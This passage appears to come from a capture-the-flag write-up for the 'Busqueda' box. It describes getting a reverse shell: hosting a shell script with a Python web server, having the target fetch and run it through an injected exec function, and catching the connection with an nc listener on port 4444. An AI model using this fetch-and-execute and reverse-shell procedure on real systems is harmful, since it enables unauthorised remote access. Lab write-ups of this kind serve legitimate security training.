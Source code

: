 We're going to copy the generated shell and paste it into a file named `shell.sh`. 

Now that our shell is ready to go, we need to start a local webserver in the same directory as our shell file so that the box can retrieve it. 

```
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can use our injected `exec` function to get a shell on the box. First we need to retrieve the shell from our attacking machine (ensure you replace `YOUR-IP` with your attacking machine's IP):

![get shell request](images/busqueda/busqueda-get-shell.png)

Next, we change the permissions of the shell file to make it executable:

![make shell executable](images/busqueda/busqueda-permissions.png)

Next, we start a listener on the same port as we defined in our shell file. In this case, we used port `4444`:

```
nc -lvnp 4444
listening on [any] 4444 ...
```
